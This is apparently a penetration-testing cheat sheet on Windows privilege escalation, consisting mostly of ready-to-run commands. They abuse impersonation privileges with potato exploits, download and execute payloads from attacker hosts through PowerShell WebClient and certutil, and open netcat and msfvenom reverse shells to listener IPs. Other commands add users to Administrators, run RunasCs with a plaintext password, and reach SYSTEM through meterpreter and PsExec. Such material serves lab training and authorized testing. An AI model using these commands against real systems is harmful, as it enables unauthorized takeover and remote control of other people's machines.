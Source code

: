 # Quick win

### Any users with impersonate privileges to _**`NT AUTHORITY\SYSTEM`**_

#### - User privileges and potato exploit

_**JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However,_ [_**PrintSpoofer**_](https://github.com/itm4n/PrintSpoofer)_**,**_ [_**RoguePotato**_](https://github.com/antonioCoco/RoguePotato)_**,**_ [_**SharpEfsPotato**_](https://github.com/bugch3ck/SharpEfsPotato)_**,**_ [_**GodPotato**_](https://github.com/BeichenDream/GodPotato) _can be used to **leverage the same privileges and gain `NT AUTHORITY\SYSTEM`** level access. This_ [_blog post_](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) _goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works._

{% code overflow="wrap" %}
```bash
>whoami /priv

# Find SeImpersonatePrivilege 

# Use SigmaPoato - Improved God potato 
# https://github.com/tylerdotrar/SigmaPotato
# In memory attack. Find other attacks at github site
Kali> rlwrap nc -nlvp 1236
CMD> powershell
PS> [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http://10.10.14.16/privesc/SigmaPotato.exe"))
[SigmaPotato]::Main(@("--revshell","10.10.14.16","1236"))

# Use God potato to rule them all as of 8/27/2023
# https://github.com/BeichenDream/GodPotato
CMD> certutil -urlcache -split -f http://10.10.14.16/nc.exe
Kali> rlwrap nc -nlvp 1235
CMD> GodPotato-NET4.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.16 1235"

# Printspoofer
# https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/ 

CMD> .\PrintSpoofer64.exe -i -c cmd

# Use Local Potato to rule them all - Local Potato or Sweet Potato as pf 12/22/2022

# If you do not want to use Local Potato or Sweet Potato:

#    If the machine is >= Windows 10 1809 & Windows Server 2019 - Try Rogue Potato

#    If the machine is < Windows 10 1809(or 1803) < Windows Server 2019 and/or only x86- Try Juicy Potato

# https://github.com/ivanitlearning/Juicy-Potato-x86 
Kali> msfvenom -p windows/shell_reverse_tcp lhost=192.168.45.183 lport=443 -f exe -o shell.exe
CMD> certutil -urlcache -split -f http://192.168.45.183/j.exe # Juicy Potato
CMD> certutil -urlcache -split -f http://192.168.45.183/shell.exe # reverse shell

Kali> rlwrap nc -nlvp 443
CMD> j.exe  -l 443 -p C:\wamp\bin\apache\Apache2.2.21\shell.exe -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}

```
{% endcode %}

[https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

[Potato section ](../potato.md)in this guide

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens" %}

### Normal User to Local Administrator or More Privileges

#### - Add Ourselves to the group - Normal Users to Local Administrator

{% code overflow="wrap" %}
```bash
net localgroup Administrators [username] /add
```
{% endcode %}

#### - RunasCS - Local Administrator with having more privileges (as well as logon as a different user)

{% code overflow="wrap" %}
```bash
# Run if you see a user in Local Administrators group
# https://github.com/antonioCoco/RunasCs/ 
# Try if you can add BypassUac and LogonType options

Kali> rlwrap nc -nlvp 444
PS> IEX (new-Object Net.WebClient).DownloadString('http://10.10.14.35/privesc/Invoke-RunasCs.ps1');Invoke-RunasCs -Username backup -Password 'hjqNspenHcyyAwNqxfJAmFcAtiKThvpotaZpglDs' -BypassUac -LogonType 8 -Command cmd.exe -Remote 10.10.14.35:4444 
```
{% endcode %}

### Local Administrator to System

If you have a Metasploit meterpreter session going, you can run `getsystem`.

{% code overflow="wrap" %}
```bash
# load the ‘priv’ extension

meterpreter > use priv
Loading extension priv...success.
meterpreter >

# getsystem
# local administrator to SYSTEM

meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
{% endcode %}

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.([https://docs.microsoft.com/enus/sysinternals/downloads/psexec](https://docs.microsoft.com/enus/sysinternals/downloads/psexec)).

```bash
> .\PsExec64.exe -accepteula -i -s cmd.exe
> .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

